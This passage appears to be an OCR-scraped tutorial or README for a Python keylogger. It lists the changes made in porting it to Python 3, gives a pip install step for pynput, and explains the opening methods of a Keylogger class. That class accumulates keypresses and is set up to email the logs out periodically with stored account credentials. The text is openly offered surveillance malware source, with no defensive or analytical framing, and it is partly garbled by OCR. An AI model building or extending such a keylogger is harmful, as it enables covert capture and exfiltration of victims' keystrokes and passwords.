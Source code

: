 Changes Made:
	1.	Python 3 Interpreter Path: Updated the shebang to #!/usr/bin/env python3.
	2.	String Concatenation: Used += for string concatenation in append_to_log.
	3.	str(key.char) to key.char: Directly used key.char instead of converting it with str.
	4.	Exception Handling for Email Sending: Added a try-except block to handle SMTP errors gracefully.
	5.	key == key.space Updated: Changed to key == pynput.keyboard.Key.space for clarity and compatibility.
	6.	Formatted Strings: Used f-strings for better readability.
	7.	Minor Syntax Adjustments: Ensured compatibility with Python 3 syntax.

Make sure you have the required modules installed:
pip install pynput

class Keylogger:
    def __init__(self, time_interval, email, password):
        self.log = "Keylogger started"
        self.interval = time_interval
        self.email = email
        self.password = password

	•	self.log: A string to store logged keypresses.
	•	self.interval: Time interval (in seconds) for sending logs via email.
	•	self.email: Email address used for sending logs.
	•	self.password: Password for the email account.

Purpose: Initialize the Keylogger object with required parameters.


  def append_to_log(self, string):
      self.log += string

	•	Appends each logged keypress (string) to the self.log variable.

Purpose: Accumulate keypresses into a single string for periodic reporting.
